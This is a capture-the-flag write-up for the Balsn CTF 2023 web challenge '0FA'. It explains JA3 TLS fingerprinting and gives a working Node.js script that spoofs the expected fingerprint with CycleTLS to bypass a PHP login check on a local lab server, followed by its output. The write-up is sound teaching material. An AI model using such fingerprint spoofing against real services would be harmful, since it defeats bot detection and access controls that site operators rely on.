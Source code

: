 ### 0FA - balsnctf 2023 - web

![Challenge Description](2023-10-15_16-36.png "Challenge Description")

### Running the challenge locally

```
docker-compose up -d
```

You can now access the challenge at https://localhost:8787/index.php

### Writeup

Looking at flag.php we have the following:
```
include_once("config.php");
fingerprint_check();
if(!isset($_POST['username']) || $_POST['username'] !== "admin")
    die("Login failed!");
```

This means that to get the flag we need to send the username POST parameter as admin and we have to bypass the following fingerprint_check function:
```
define("FINGERPRINT", "771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0");

function fingerprint_check() {
    if($_SERVER['HTTP_SSL_JA3'] !== FINGERPRINT) 
        die("Login Failed!"); 
}
```

JA3 is a method of TLS fingerprinting that was inspired by the [research](https://blog.squarelemon.com/tls-fingerprinting/) and works of [Lee Brotherston](https://twitter.com/synackpse) and his TLS Fingerprinting tool: [FingerprinTLS](https://github.com/LeeBrotherston/tls-fingerprinting/tree/master/fingerprintls). 

JA3 gathers the decimal values of the bytes for the following fields in the Client Hello packet; SSL Version, Accepted Ciphers, List of Extensions, Elliptic Curves, and Elliptic Curve Formats. It then concatenates those values together in order, using a "," to delimit each field and a "-" to delimit each value in each field.

The field order is as follows:
```
SSLVersion,Cipher,SSLExtension,EllipticCurve,EllipticCurvePointFormat
```

If you want to know more about JA3 fingerprinting I recommend the following resources:
- https://github.com/salesforce/ja3 (source of the explanation above)
- https://engineering.salesforce.com/tls-fingerprinting-with-ja3-and-ja3s-247362855967/

To spoof the JA3 fingerprint that the server is expecting I've used the following project:
- https://github.com/Danny-Dasilva/CycleTLS

And created the following code:
```
const initCycleTLS = require('cycletls');

(async () => {
  const cycleTLS = await initCycleTLS();

  const response = await cycleTLS('https://localhost:8787/flag.php', {
    body: 'username=admin',
    ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
    headers: {"Content-Type": "application/x-www-form-urlencoded",},
    userAgent: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0'
  }, 'post');

  console.log(response);
  cycleTLS.exit();
})();
```

To run this code go to the solution folder and run the following:
```
npm install
node attack.ts
```

Since the code is sending the expected username and spoofing the JA3 fingerprint we are able to retrieve the flag:
```
{
  status: 200,
  body: '<html>\n' +
    '<head>\n' +
    '    <title>Balsn CTF 2023 - 0FA</title>\n' +
    '    <meta charset="UTF-8">\n' +
    '    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.4/css/bulma.min.css">\n' +
    '</head>\n' +
    '<body>\n' +
    '  Here is your flag: BALSN{fake_flag}</body>\n' +
    '</html>',
  headers: {
    Connection: 'keep-alive',
    'Content-Type': 'text/html; charset=UTF-8',
    Date: 'Sun, 08 Oct 2023 17:41:54 GMT',
    Server: 'nginx/1.23.1'
  }
}
```
